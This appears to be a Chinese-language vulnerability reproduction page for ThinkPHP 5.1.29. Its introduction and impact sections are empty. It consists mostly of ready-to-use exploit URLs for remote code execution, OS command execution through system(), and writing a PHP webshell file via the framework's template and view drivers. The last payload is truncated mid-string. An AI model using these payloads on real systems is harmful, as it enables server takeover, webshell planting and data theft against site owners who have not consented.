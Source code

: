 Thinkphp 5.1.29
===============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 1、代码执行

    http://www.0-sec.org/?s=index/\think\Request/input&filter=phpinfo&data=1

    http://www.0-sec.org/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

    http://www.0-sec.org/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

### 2、命令执行

    http://www.0-sec.org/?s=index/\think\Request/input&filter=system&data=操作系统命令

    http://www.0-sec.org/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=操作系统命令

    http://www.0-sec.org/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=操作系统命令

### 3、文件写入

    http://www.0-sec.org/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E

    http://www.0-sec.org/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3
